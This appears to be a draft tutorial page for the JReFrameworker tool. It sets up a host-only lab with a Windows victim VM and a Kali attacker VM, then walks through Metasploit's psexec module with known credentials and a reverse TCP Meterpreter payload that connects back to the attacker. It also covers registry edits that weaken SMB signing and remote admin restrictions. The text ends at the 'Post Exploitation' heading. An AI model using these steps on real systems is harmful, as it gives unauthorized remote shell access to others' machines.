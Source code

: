 ```yaml
---
layout: post
title: Payload Deployment
draft: true
---
```


This tutorial demonstrates how to modify a victim machine's runtime using a JReFrameworker module.

If you haven't already, you should complete the first two tutorials ([Hello World](./hello-world) and [Hidden File](./hidden-file)) to become familiar with the basics of JReFrameworker.

<a name="Setup"></a>

## Lab Setup

You will also need to setup a small laboratory test environment that includes the following.

1. A victim machine (this tutorial uses a fresh install of Windows 7 SP1 x64 English edition in a virtual machine, but any OS capable of running Java will work).
2. An attacker machine with [Metasploit](https://www.metasploit.com/) installed (this tutorial uses a [Kali Linux virtual machine](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) version 2016.2).
3. An installation of JReFrameworker (this tutorial uses the host machine, but any OS that can run [Eclipse](https://eclipse.org/) with JReFrameworker installed will work).

For this tutorial we will be using [VMWare](https://www.vmware.com) virtual machines, but [Virtualbox](https://www.virtualbox.org) is a good free alternative to VMWare.

Our victim machine was created with an Administrator account named `Victim` and password `badpass`. Log into the machine. Since Java is not installed by default, we will need to install the runtime environment. You can download the standard edition of Java directly from [Oracle](http://www.oracle.com/technetwork/java/javase/downloads/index.html) or by using the [ninite.com](https://ninite.com/) installer. 

After installing Java, we set out virtual machines to `Host only` mode with our victim at `192.168.115.129` and our attacker at `192.168.115.128`. Double check that you know the IP addresses of each machine and that each machine can ping the other. If Kali cannot ping the Windows virtual machine, you may need to disable or specifically allow connections through the Windows firewall.

<p>
  <center>
    <a href="../images/payload-deployment/windows-network-zoom.png" data-lightbox="windows-network" data-title="Windows Network">
      <img src="../images/payload-deployment/windows-network.png" alt="Windows Victim Network" />
      <figcaption>Windows Victim Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

<p>
  <center>
    <a href="../images/payload-deployment/kali-network-zoom.png" data-lightbox="kali-network" data-title="Kali Network">
      <img src="../images/payload-deployment/kali-network.png" alt="Kali Attacker Network" />
      <figcaption>Kali Attacker Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

The next section continues the lab setup towards getting an active [Metasploit Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session on the victim machine. If your lab setup is different and you have a working exploit already, skip to the [Post Exploitation](#PostExploitation) section below.

<a name="Exploitation"></a>

## Exploitation

Since we already know the credentials for the victim machine, we will be using Metasploit's [psexec (pass the hash) module](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/). In Kali, open the Metasploit framework console by typing `msfconsole` in the terminal. 

<p>
  <center>
    <a href="../images/payload-deployment/msfconsole-zoom.png" data-lightbox="kali-network" data-title="msfconsole">
      <img src="../images/payload-deployment/msfconsole.png" alt="Open msfconsole" />
      <figcaption>Open msfconsole (click to zoom)</figcaption>
    </a>
  </center>
</p>

Within the Metasploit framework console, load the psexec exploit module by typing `use exploit/windows/smb/psexec`.

<p>
  <center>
    <a href="../images/payload-deployment/load-exploit-zoom.png" data-lightbox="kali-network" data-title="load-exploit">
      <img src="../images/payload-deployment/load-exploit.png" alt="Load Exploit" />
      <figcaption>Load exploit (click to zoom)</figcaption>
    </a>
  </center>
</p>

Type `show options` to view the exploit configuration parameters.

<p>
  <center>
    <a href="../images/payload-deployment/exploit-options-zoom.png" data-lightbox="kali-network" data-title="exploit-options">
      <img src="../images/payload-deployment/exploit-options.png" alt="Exploit Options" />
      <figcaption>Exploit Options (click to zoom)</figcaption>
    </a>
  </center>
</p>

Set the remote host to be the IP address of the victim machine by typing `set RHOST 192.168.115.129`.

Set the username to authenticate as by typing `set SMBUser Victim`. Note that you may need to replace `Victim` with the Windows username you used to configure your virtual machine with during setup.

Set the password to authenticate with by typing `set SMBPass badpass`. Again you may need to replace `badpass` with the actual password you used during setup.

Finally let's configure a reverse TCP Meterpreter payload that will execute Meterpreter on the victim machine and connect back to our attacker machine with the active session. Configure the payload by typing `set PAYLOAD windows/meterpreter/reverse_tcp`.

Set the outbound Meterpreter connection address to be the local host (the IP address of the attacker machine) by typing `set LHOST 192.168.115.128`.

Set the outbound Meterpreter connection port to be port 443 (https) by typing `set LPORT 443`.

<p>
  <center>
    <a href="../images/payload-deployment/exploit-parameters-zoom.png" data-lightbox="kali-network" data-title="exploit-parameters">
      <img src="../images/payload-deployment/exploit-parameters.png" alt="Set Exploit Parameters" />
      <figcaption>Set Exploit Parameters (click to zoom)</figcaption>
    </a>
  </center>
</p>

Finally run the exploit by typing `exploit`.

If the exploit failed with error code `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` you may need to edit a registry setting on the Window's victim. Using Window's *regedit* tool navigate to the registry key, **"HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters"** on the target systems and setting the value of **"RequireSecuritySignature"** to **"0"**. Note that while some registry keys may be case sensitive, these keys do not appear to be case sensitive. This registry edit disables the group policy requirement that communications must be digitally signed. 

You may also need to add a new registry key under **"HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"**. Setting  the key to be a DWORD (32-bit) named **"LocalAccountTokenFilterPolicy"** with a value of **"1"**. This edit allows local users to perform administrative actions.

After setting the registry keys, rerun the exploit in Kali. If you are still not successful, try restarting the Windows machine and double checking your exploit configuration parameters by typing `set` to view the current values.

If the exploit was successful you will see that one new session was created. 

<a name="PostExploitation"></a>

## Post Exploitation